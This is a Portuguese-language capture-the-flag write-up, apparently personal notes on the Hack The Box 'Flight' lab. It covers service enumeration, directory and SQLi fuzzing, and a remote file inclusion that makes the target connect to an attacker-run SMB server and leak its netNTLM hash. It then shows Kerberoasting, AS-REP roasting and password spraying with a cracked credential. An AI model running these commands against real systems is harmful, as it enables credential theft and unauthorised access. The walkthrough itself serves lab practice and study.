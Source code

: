 Flight
======

## Enumeration

Nmap script

![qownnotes-media-VMuwah](../../../media/qownnotes-media-VMuwah.png)

UDP scan

![qownnotes-media-VMgxgZ](../../../media/qownnotes-media-VMgxgZ.png)

Full TCP scan

![qownnotes-media-Wvevvm](../../../media/qownnotes-media-Wvevvm.png)

Então temos:

DNS
HTTP
Kerberos
RPC
SMB
LDAP


### HTTP

![qownnotes-media-zNgBXB](../../../media/qownnotes-media-zNgBXB.png)

![qownnotes-media-TwGaZc](../../../media/qownnotes-media-TwGaZc.png)

![qownnotes-media-VveKHl](../../../media/qownnotes-media-VveKHl.png)

![qownnotes-media-qQXkSz](../../../media/qownnotes-media-qQXkSz.png) =======> Possible entry point

Dando sequência após a enumeração dos demais. Nada encontrado exceto por este subdomínio:

    school.flight.htb

### SMB

![qownnotes-media-bkzCgk](../../../media/qownnotes-media-bkzCgk.png)

    g0.flight.htb

![qownnotes-media-DQoVIc](../../../media/qownnotes-media-DQoVIc.png)


### RPC

![qownnotes-media-kBtyxd](../../../media/qownnotes-media-kBtyxd.png)

### LDAP

![qownnotes-media-LnGbjN](../../../media/qownnotes-media-LnGbjN.png)

### Kerberos

    kerbrute userenum --domain flight.htb /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt --dc 10.10.11.187

![qownnotes-media-RAnyke](../../../media/qownnotes-media-RAnyke.png)

### DNS

![qownnotes-media-OxlPjV](../../../media/qownnotes-media-OxlPjV.png)

![qownnotes-media-nyDtLD](../../../media/qownnotes-media-nyDtLD.png)

![qownnotes-media-OyCEfo](../../../media/qownnotes-media-OyCEfo.png)


### HTTP continue

    school.flight.htb

![qownnotes-media-iUmICa](../../../media/qownnotes-media-iUmICa.png)

![qownnotes-media-kMffXk](../../../media/qownnotes-media-kMffXk.png)

Aqui eu notei que o que muda é o parâmetro "view" da URL, então eu tentei esse mesmo teste, mas de maneira diferente:

    ffuf -c -ic -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://school.flight.htb?view=FUZZ -e ".php,.html" -fs 1102

![qownnotes-media-XXURur](../../../media/qownnotes-media-XXURur.png)

![qownnotes-media-puTALa](../../../media/qownnotes-media-puTALa.png)

As que vieram diferentes foram:

![qownnotes-media-KrRjij](../../../media/qownnotes-media-KrRjij.png)


    g0.flight.htb
 
 ![qownnotes-media-CDlMtu](../../../media/qownnotes-media-CDlMtu.png)

Deu em nada aqui

No entanto, se formos parar para perceber, me parece que isso pode estar sendo consultado no banco de dados... Vamos para um outro teste :

#### SQLi

    ffuf -c -ic -w /usr/share/seclists/Fuzzing/SQLi/Generic-SQLi.txt -u http://school.flight.htb?view=FUZZ -e ".php,.html" -fs 7069,1170,1102


![qownnotes-media-NHAXrq](../../../media/qownnotes-media-NHAXrq.png)


![qownnotes-media-RlSMVb](../../../media/qownnotes-media-RlSMVb.png)

![qownnotes-media-SdlWrO](../../../media/qownnotes-media-SdlWrO.png)

![qownnotes-media-HtZCrq](../../../media/qownnotes-media-HtZCrq.png)

#### LFI

PWNED!

![qownnotes-media-GeVlbb](../../../media/qownnotes-media-GeVlbb.png)


## Exploitation

Para conseguir explorar essa vulnerabilidade, testei algumas coisas, no entanto, imaginei que fosse algum arquivo que eu deveria extrair e , na verdade se tratava de um RFI e, sendo assim, seria possível obter o hash de senha por meio do seguinte payload:

    impacket-smbserver -smb2support smb .

    http://school.flight.htb/index.php?view=//10.10.14.14/smb/test.txt
    
Dessa forma eu forço o sistema a me enviar o hash netNTLM da máquina e eu posso extraí-lo para quebrá-lo e dar sequência no ataque:

![qownnotes-media-hMblhO](../../../media/qownnotes-media-hMblhO.png)

![qownnotes-media-JCOaeL](../../../media/qownnotes-media-JCOaeL.png)

Tentativa com Kerberoasting

    impacket-GetUserSPNs 'flight.htb/svc_apache:S@Ss!K@*t13' -dc-ip 10.10.11.187 -request

As Rep Roasting:

    impacket-GetNPUsers -dc-ip 10.10.11.187 flight.htb/ -usersfile users.txt -format john -outputfile hashes
    
    enum4linux -u svc_apache -p 'S@Ss!K@*t13' 10.10.11.187
     
 Comecei a entrar em vários diretórios, mas de novo sem saber exatamente o que procurar no SMB, exceto pelo Groups.xml
 Enumerei pelo bloodhound:
 
     bloodhound-python -u svc_apache -p 'S@Ss!K@*t13' -d flight.htb -v --zip -c All -dc g0.flight.htb -ns 10.10.11.187
     
Sem sucesso. Password Spray:

    crackmapexec ldap 10.10.11.187 -u users.txt -p 'S@Ss!K@*t13' --continue
    
    crackmapexec winrm 10.10.11.187 -u users.txt -p passwords.txt --continue

    crackmapexec winrm 10.10.11.187 -u users.txt -p 'S@Ss!K@*t13' --continue

![qownnotes-media-ZJWfVt](../../../media/qownnotes-media-ZJWfVt.png)


Continuando a enumeração:

    crackmapexec smb 10.10.11.187 -u 's.moon' -p 'S@Ss!K@*t13' --shares

![qownnotes-media-Swipnb](../../../media/qownnotes-media-Swipnb.png)
